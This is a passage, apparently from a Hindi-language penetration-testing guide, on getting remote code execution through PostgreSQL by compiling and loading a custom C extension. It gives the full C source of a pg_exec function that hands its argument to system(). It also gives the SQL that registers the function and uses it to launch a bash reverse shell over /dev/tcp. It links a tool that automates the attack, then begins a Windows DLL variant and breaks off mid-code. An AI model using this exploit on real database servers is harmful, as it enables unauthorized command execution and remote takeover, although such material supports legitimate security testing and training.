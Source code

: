 PostgreSQL संस्करण 8.2 के बाद, हमलावर के लिए सिस्टम का शोषण करने की प्रक्रिया को अधिक चुनौतीपूर्ण बना दिया गया है। हमलावर को या तो पहले से ही सिस्टम पर मौजूद एक पुस्तकालय का उपयोग करना होगा या एक कस्टम पुस्तकालय अपलोड करना होगा। यह कस्टम पुस्तकालय PostgreSQL के संगत मुख्य संस्करण के खिलाफ कंपाइल किया जाना चाहिए और एक विशिष्ट "जादू ब्लॉक" शामिल करना चाहिए। यह उपाय PostgreSQL सिस्टम का शोषण करने की कठिनाई को काफी बढ़ा देता है, क्योंकि इसे सिस्टम की वास्तुकला और संस्करण संगतता की गहरी समझ की आवश्यकता होती है।

#### पुस्तकालय को कंपाइल करें

PsotgreSQL संस्करण प्राप्त करें:
```sql
SELECT version();
PostgreSQL 9.6.3 on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18) 6.3.0 20170516, 64-bit
```
**संगतता के लिए, मुख्य संस्करणों को संरेखित करना आवश्यक है। इसलिए, 9.6.x श्रृंखला के किसी भी संस्करण के साथ एक पुस्तकालय को कंपाइल करना सफल सम्मिलन सुनिश्चित करना चाहिए।


उस संस्करण को अपने सिस्टम में स्थापित करने के लिए:**
```bash
apt install postgresql postgresql-server-dev-9.6
```
और पुस्तकालय को कंपाइल करें:
```c
//gcc -I$(pg_config --includedir-server) -shared -fPIC -o pg_exec.so pg_exec.c
#include <string.h>
#include "postgres.h"
#include "fmgr.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

PG_FUNCTION_INFO_V1(pg_exec);
Datum pg_exec(PG_FUNCTION_ARGS) {
char* command = PG_GETARG_CSTRING(0);
PG_RETURN_INT32(system(command));
}
```
फिर कंपाइल की गई लाइब्रेरी अपलोड करें और निम्नलिखित कमांड्स को निष्पादित करें:
```bash
CREATE FUNCTION sys(cstring) RETURNS int AS '/tmp/pg_exec.so', 'pg_exec' LANGUAGE C STRICT;
SELECT sys('bash -c "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"');
#Notice the double single quotes are needed to scape the qoutes
```
आप इस **लाइब्रेरी को पूर्व-कंपाइल** कई विभिन्न PostgreSQL संस्करणों के लिए पा सकते हैं और यह **प्रक्रिया को स्वचालित** भी कर सकते हैं (अगर आपके पास PostgreSQL एक्सेस है) इसके साथ:

{% embed url="https://github.com/Dionach/pgexec" %}

### Windows में RCE

निम्नलिखित DLL इनपुट के रूप में **बाइनरी का नाम** और **बार** की **संख्या** लेती है और इसे निष्पादित करती है:
```c
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include "utils/builtins.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
```